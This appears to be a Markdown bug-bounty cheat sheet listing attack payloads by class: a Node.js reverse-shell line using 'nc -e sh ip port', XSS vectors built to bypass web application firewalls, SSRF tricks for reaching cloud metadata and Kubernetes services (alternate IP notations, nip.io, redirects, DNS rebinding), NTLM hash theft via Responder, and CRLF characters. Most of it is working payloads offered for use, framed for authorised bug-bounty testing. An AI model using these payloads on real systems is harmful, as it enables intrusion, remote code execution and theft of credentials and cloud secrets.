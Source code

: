 # General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# RCE
1-If you discover a node.js template area, you should try triggerable node payload </br>
`require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`

# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
```
5-Bypass XSS WAF protection using a comment between a JS function name and parameters
```
<img/src/onerror=alert/*1337*/(1)>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert&sol;**&sol;(3)>
```
<br>
6-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)

# SSRF
1-Try other URL schemes:<br>
```
• file:// (file read)
• netdoc:// (file read)
• dict://
• gopher://
• jar://
• ldap://
• and more!
```
<br>
You might be able to get file read.
<br>
Or send multi-line requests to gain additional impact
<br>
(Ex: gopher + redis = likely RCE)<br>
<br>

2-Is the target running Windows?

Can't hit internal services?

(Well, try this even if you can)

Try to steal NTLM hashes with Responder.

`/vulnerable?url=http://your-responder-host`
<br><br>
3-Try alternative representations of IP addresses.

IPs can be represented in many ways including:
```
• octal
• decimal
• hexadecimal
• etc.
```
Try different representations.

You might get lucky.
<br><br>
4-Can't hit `169.254.169.254`?

On AWS, "instance-data" resolves to the metadata server.

Try hitting `http://instance-data` instead.
<br><br>
5- Know your target's technologies.

Look at job postings!

You might not be able to hit a meta-data service.

But there are likely other internal services!

(ex: I've pulled data from an internal Elasticsearch instance)
<br><br>
6- Are they using Kubernetes?

Search Burp history for `.default.svc` or `.cluster.local`

If you find references, try to hit them.

Also, try to hit the Kubernetes API: `https://kubernetes.default.svc`
<br><br>
7- In Kubernetes, you should be brute-forcing for:

`HOSTNAME.<some-namespace>.svc.cluster.local`

I often use Burp Intruder: `FUZZ.default.svc.cluster.local`

Need better wordlists?

Scrape helm charts from ArtifactHub.
<br><br>
8- Can't supply a full URL? You can still get SSRF!

If your input is used to build a URL, THINK.

Learn about URL structures.

The following 4 characters have led to many SSRFs:
```
• @
• ?
• #
• ;
```
An example is in the picture:
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/img1.jpeg)
<br><br>
9- If your injection is down the path, traverse!
```
GET /vulnerable?id=1234

|> app fetches: http://some-api/api/v1/1234
```
```

GET /vulnerable?id=../../

|> app fetches: http://some-api/api/v1/../../
```

Find an open redirect & you probably have SSRF.

Or likely can hit internal endpoints.

10- Use Hostnames Instead of IPs

Use services like `http://nip.io` to bypass direct IP bans. 

Here are some examples. All of these resolve to `169.254.169.254`.
```
http://169.254.169.254.nip.io
http://169-254-169-254.nip.io
http://a9fea9fe.nip.io (hexadecimal IP notation)
```
11- HTTP Redirects

Use redirects from a custom domain to a blocked IP to catch applications off-guard! 

Here’s a simple PHP script to perform the redirect.

`<?php header(“Location: http://169.254.169.254/”) ?>`

12- DNS Rebinding

Use TOCTOU vulnerabilities, by providing alternating DNS responses to breach. 

Set up a DNS server that responds with two different IPs on alternating requests, one is allowed through the `ip_is_blocked()` function, and the other is not.

13-Non-Standard IP Notations

Octal, hexadecimal, integer, IPv6 can bypass some IP blockages! 

All these will be interpreted as `169.254.169.254`:
```
025177524776 (octal)
0xa9fea9fe (hexadecimal)
2852039166 (integer)
::ffff:a9fe:a9fe (IPv6)
```
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
